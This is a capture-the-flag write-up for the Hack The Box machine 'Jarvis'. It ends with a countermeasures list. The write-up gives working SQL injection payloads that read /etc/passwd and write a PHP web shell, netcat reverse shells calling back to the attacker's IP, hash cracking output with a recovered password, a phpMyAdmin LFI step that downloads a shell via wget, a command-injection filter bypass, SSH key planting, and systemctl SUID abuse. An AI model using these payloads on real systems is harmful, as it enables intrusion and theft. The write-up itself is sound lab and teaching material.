







# Jarvis


#### Machine Release Date: June 22, 2019

## Summary

Jarvis was a medium level machine that had an SQL injection vulnerability in its custom web application on port 80.
Via SQL injection, I was able to write a web shell to the remote machine and leverage it to get remote code execution.
I was also able to get the database user's hash and crack it.
This allowed me to access the PhpMyAdmin web application and exploit an LFI vulnerability which also granted me remote code execution.
From there, I was able to own the first user by running one of their scripts with restricted sudo privileges via OS command injection to generate an SSH key and use it to login on thier behalf.
After owning the first user, I enumerated for SUID binaries on the system and was able to get remote code execution via `/bin/systemctl` with root privileges.

## Skills Learned

* Web Enumeration
* Manual SQL Injection
* MySQL Hash Cracking
* PhpMyAdmin LFI Exploitation
* Linux Enumeration
* OS Command Injection Filter Bypassing
* SUID Binary Abuse (GTFObins)

## Active Ports

```bash
sudo nmap -p22,80,64999 -sC -sV -oA nmap/full-tcp-version 10.10.10.143
```

```none
Nmap scan report for 10.10.10.143
Host is up (0.033s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 23 17:10:28 2020 -- 1 IP address (1 host up) scanned in 13.49 seconds
```

## Failed Recon

* Could not SSH login by reusing the cracked DBAdmin's password from the mysql.user table.

## Web Enumeration

Navigating to the web service on port 80, I was presented with a custom web application:


Navigating to `http://10.10.10.143/room.php?cod=1`, I found a page that rendered items on it :



Notice how the `cod` parameter is numeric and a single image was rendered. I was curious what would happen if I tried `cod=2`:


Since I figured data was being fetched from a database, I tried some basic numeric SQL injection with `cod=2-1`.
If the app was vulnerable, I would get the same results from the first image I previously rendered.

### SQL Injection Payloads

To put things into context, let's start out with two web requests. One will fetch item with cod=1 and the other will fetch item with cod=2:




The responses returned 6522 and 6449 bytes of content respectively.

### 1) Verify the SQL injection

```mysql
2-1
```



Notice that the amount of bytes returned from the response above was 6522. This indicated that `2-1` evaluated to `1`, fetching the item with `cod=1`.

### 2) Verify the number of columns available to render the exfiltrated data

```mysql
1 ORDER BY 7;#
```

Notice that the amount of content received from the web app is different when specifying too many columns.
In the image below, I injected `1 ORDER BY 8;#` which resulted in a failed query with 6234 bytes:



But when specifying 7, the web app returns the same amount of bytes (6522) I got when querying `cod=1` without SQL injection:


At this point, I had determined there were 7 columns avaialble for injection.

### 3) Render the data

Notice below that I set `cod=-1` because the 6th field rendered to the page if no image could be found.

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,'r0kit',NULL;#
```


### 4) Enumerate the databases

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),NULL;#
```


### 5) Enumerate the tables for the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel'),NULL;#
```

Notice below that the only table in the `hotel` database is `room`:


### 6) Enumerate the columns for the room table in the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel' and table_name = 'room'), NULL;#
```


### 7) Enumerate all MySQL usernames and passwords

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT CONCAT(user,';',password) from mysql.user),NULL;#
```


### 8) Read the /etc/passwd file

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,LOAD_FILE('/etc/passwd'),NULL;#
```


### 9) Write a web shell

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,"<?php echo shell_exec($_REQUEST['cmd']);?>",NULL INTO OUTFILE '/var/www/html/r0kit.php';# 
```



#### Test the web shell


Finally, I executed a netcat reverse shell by invoking the web shell with the following URL encoded command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f
```

The HTTP request line looked like this: `http://10.10.10.143/r0kit.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.10.14.19%202001%20%3E/tmp/f`.
Back on my Kali machine, I was presented a reverse shell as the `www-data` user:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48492.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Foothold - Alternative Method (PhpMyAdmin LFI Remote Code Execution - CVE-2018-12613)

From the previous SQL injection, I cracked the the MySQL DBAdmin user's hash:

```none
$ hashcat --example-hashes | grep -iC1 mysql
... CONTENT SNIPPED ...

MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
--

... CONTENT SNIPPED ...
```

```none
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 300 ..\hashes\jarvis.mysql ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MySQL4.1/MySQL5
Hash.Target......: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0
Time.Started.....: Wed Sep 23 19:48:06 2020 (0 secs)
Time.Estimated...: Wed Sep 23 19:48:06 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 12593.9 kH/s (5.78ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1048576/14344385 (7.31%)
Rejected.........: 0/1048576 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> Leslee
Hardware.Mon.#1..: Temp: 66c Util:  3% Core:1065MHz Mem:3500MHz Bus:16

Started: Wed Sep 23 19:48:01 2020
Stopped: Wed Sep 23 19:48:07 2020
```

From here, I determined that the `DBadmin` user's password was `imissyou`.
Next, I logged in to `phpmyadmin` with the credentials.




Notice that `phpmyadmin` was running version `4.8.0` and was vulnerable to LFI.

```none
$ searchsploit phpmyadmin
... CONTENT SNIPPED ...
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                               | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                               | php/webapps/44928.txt
... CONTENT SNIPPED ...
```

The exploits above mention that you can run a MySQL query with PHP code in it to pollute the PHP session identifier.
In my case, I requested that the PHP invoke a shell command that would download a PHP reverse shell onto the web root.

```mysql
select '<?php echo shell_exec("wget -O /var/www/html/r0kit-rsh.php http://10.10.14.19:8000/r0kit-rsh.php"); ?>' 
```



From there, I accessed the PHP session identifier via LFI to run the exploit.
Notice that the session name will go in the URL and can be found be looking up the `phpMyAdmin` cookie as demonstrated below.


At this point, my PHP reverse shell was successfully downloaded to `/var/www/html/r0kit-rsh.php`!

```none
kali@kali:~/htb/machines/jarvis/web-80/phpmyadmin/exploit$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
10.10.10.143 - - [23/Sep/2020 19:36:42] "GET /r0kit-rsh.php HTTP/1.1" 200 -
```

Note that if you wish to execute multiple commands, you may need to logout log back in so that you can poison a new PHP session.

I then executed my reverse shell as `www-data` by visiting `http://10.10.10.143/r0kit-rsh.php`:

```none
kali@kali:~/htb/machines/jarvis/loot$ ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48462.
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 19:40:44 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 /bin/sh: 0: can't access tty; job control turned off
 $ id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation - User (Restricted Sudo - OS Command Injection Filter Bypass)

After upgrading to a [pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2), I checked for sudo permissions:

```none
www-data@jarvis:/tmp$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Since `/var/www/Admin-Utilities/simpler.py` was not writeable by the `www-data` user, I needed to figure out a way to trick the script into executing arbitrary commands:

```none
www-data@jarvis:/var/www/Admin-Utilities$ ls -la
total 16
drwxr-xr-x 2 pepper pepper 4096 Mar  4  2019 .
drwxr-xr-x 4 root   root   4096 Mar  4  2019 ..
-rwxr--r-- 1 pepper pepper 4587 Mar  4  2019 simpler.py
```

#### simpler.py

```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()

    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1

    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)

def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req

def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

Looking at the code above, I noticed the `os.system('ping ' + command)` line.
A few lines above, there is also a blacklist for shell syntax which didn't have the `$`, `(`, `)` characters.
This meant that I could use shell interpolation and pass a value to `command` like `$(/bin/bash)` to invoke a shell as the `pepper` user.

```none
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/bin/sh)
id
whoami
cat /etc/passwd
cat /etc/passwd > /tmp/passwd-test
www-data@jarvis:/var/www/Admin-Utilities$ ls -l /tmp
total 4
-rw-r--r-- 1 pepper pepper 1434 Sep 23 20:10 passwd-test
```

Notice how running bash from that shell didn't write any visible results to my console.
However, I noticed that I could still write files as the `pepper` user, so I ended up scripting something that will generate an ssh key, make it world-readable and copy it to the /tmp directory. Note that a better approach would have been to invoke a netcat reverse shell instead.

I ran the commands from the following script and copied the `id_rsa` private key to my Kali machine to login as the `pepper` user: 

```bash
mkdir -p /home/pepper/.ssh
ssh-keygen -b 2048 -t rsa -f /home/pepper/.ssh/id_rsa_r0kit -q -N ""
cat /home/pepper/.ssh/id_rsa_r0kit.pub >> /home/pepper/.ssh/authorized_keys
chmod -R 700 /home/pepper/.ssh/
cp /home/pepper/.ssh/id_rsa_r0kit /tmp/pepper.id_rsa
chmod 744 /tmp/pepper.id_rsa_r0kit
```

The script above generates an SSH key pair without prompt and modifies the permissions on the keys to make SSHd happy.
Finally, the private key was copied to the /tmp directory and its permissions were changed to world-readable so that the `www-data` user can read them.

**NOTE: Generally speaking, avoid doing this on real-world pentest engagements because it makes more work for you to clean up and makes it significantly easier for others to compromise the user.**

At this point, I was able to login as the `pepper` user and grab their flag:

```none
$ ssh -i pepper.id_rsa.tmp pepper@10.10.10.143
load pubkey "pepper.id_rsa.tmp": invalid format
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar  5 10:23:48 2019 from 172.16.204.1
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege Escalation - Root Own (Remote Code Execution via SUID Binary)

After enumerating the system again for SUID binaries, I found the following SUID binary which was exeutable by pepper and root:

```none
$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
```

Using the [example](https://gtfobins.github.io/gtfobins/systemctl/) from GTFObins, I was able to abuse the root SUID permissions on `/bin/systemctl` here
by executing a oneshot service with the following script:

```bash
#!/bin/sh

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The oneshot service would execute a netcat reverse shell that would connect back to my Kali machine.
I created the script above with the `vi` text editor, made it executable, and ran it:

```none
pepper@jarvis:/dev/shm$ chmod +x exploit.sh
pepper@jarvis:/dev/shm$ ./exploit.sh
Created symlink /etc/systemd/system/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.

```

On my Kali machine, I was presented with reverse shell session with root privileges:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48472.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

## Countermeasures

* Use [prepared statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html) so that the database doesn't interpret data as code.
* Upgrade to the latest version of PhpMyAdmin.
* Use stronger passwords (i.e. at least 28 randomly generated alpha-numeric with symbols) to make them harder to crack.
* Avoid using code that directly invokes shell commans like python's `os.system()`. Prefer using safer platform APIs instead. A less effective countermeasure is to whitelist permitted values rather than implementing a blacklist. For example, you can validate whether the `command` value is an IP address or resolves to one.
* For users that need to invoke systemctl, prefer using sudo with a password rather than setting root SUID permissions on the binary if possible. In the case of a breach, this would ensure that an attacker would also need the compromised user's password.
